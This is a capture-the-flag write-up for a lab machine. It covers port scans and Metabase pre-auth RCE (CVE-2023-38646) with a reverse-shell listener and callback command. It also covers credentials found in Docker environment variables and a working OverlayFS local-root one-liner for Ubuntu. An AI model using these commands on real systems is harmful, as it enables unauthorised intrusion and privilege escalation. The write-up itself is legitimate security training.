





we start the machine with a simple port scan:
	
	rustscan -a 10.10.11.233
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
for a better scan i run:
	
	nmap -sC -sV -p80,22 10.10.11.233
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
	|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Analytical
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so the first thing i did is visit the webserver on port 80,
but got this:
	

	
that means that we need to add it to /etc/hosts:
	
	echo '10.10.11.233	analytical.htb' >> /etc/hosts
after that we can visit the site:
	

	
there is not much clickable in the site apart from the login page. but we need to add another subdomain for this page first:
	
	echo '10.10.11.233	data.analytical.htb' >> /etc/hosts
now we can visit and see this:
	

	
i immediatly searched for public exploits and PoC and found this:
	
https://github.com/alexandre-pecorilla/CVE-2023-38646
	
but we need to get the token first. I found it thanks to that post:
	
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
	
so we need to visit this endpoint:
	
	/api/session/properties
and check for tokens:
	

	
now that we have the token we can start a listener with:
	
	nc -lvnp 4444
and launch our exploit with:
	
	python3 CVE-2023-38646.py -u http://data.analytics.htb -t [REDACTED] -i 10.10.14.191 -p 4444
WE GOT THE CALLBACK!
now is time for enumeration:
we are inside a docker:
	
	ls -a /
output:
	
	.
	..
	.dockerenv
	[...]
so we need to perform a dockerescape... but how??
so i uploaded linpeas on the machine and found something strange:
	

	
inside the enviroment variable of the machine there are some creds.
I tried them on ssh and worked!!
so i loged in and submitted the flag.
Time to privesc.
This part took me a while, in fact i dind't find anything on the box so i searched for recent exploits related to this machine,
by running:
	
	uname -a
output:
	
	Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

i found this:
	
https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability
	
and searched more about some exploits.
Finally i found that it maybe vulnerable to overlay exploit.
around there are a lot of PoC.
but i found this:
```bash
#!/bin/bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'"
```
from this reddit post:
	
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
	
so i run it and GOT ROOT!!
(also we can run this exploit):
	
https://medium.com/@omerbureyde/overlayfs-cve-2021-3493-9f675613fe1e
	
just compile it locally and then upload it to the machine, execute and u will be root!
